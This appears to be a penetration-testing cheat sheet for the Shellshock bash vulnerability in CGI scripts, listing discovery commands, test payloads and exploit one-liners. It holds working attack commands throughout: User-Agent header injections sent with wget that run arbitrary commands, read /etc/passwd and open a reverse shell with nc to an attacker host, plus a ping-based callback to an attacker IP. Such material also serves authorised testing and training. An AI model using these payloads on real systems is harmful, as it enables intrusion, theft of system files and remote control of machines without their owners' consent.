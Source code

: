 Vulnerability associated with multiple vectors
## CGI
### Find:
	dirsearch -u [ip] -r -e cgi
	nmap --script http-shellshock $ip

### Test
	Bash: env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
	
	User-Agent: () { :;}; ping -c 5 -p [uniques_string] [attacker ip]

### Exploit
#### If http-shellshock comes as positive
	wget -U "() { foo;}; echo \"Content-type: text/plain\"; echo; echo; [command]" http://[ip]/cgi-bin/login.cgi
	
	wget -U "() { foo;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://[ip]/cgi-bin/login.cgi && cat login.cgi
	
	wget -U "() { foo;}; echo \"Content-type: text/plain\"; echo; echo; /bin/nc [attacker ip] [port] -e /bin/sh" http://[ip]/cgi-bin/login.cgi
	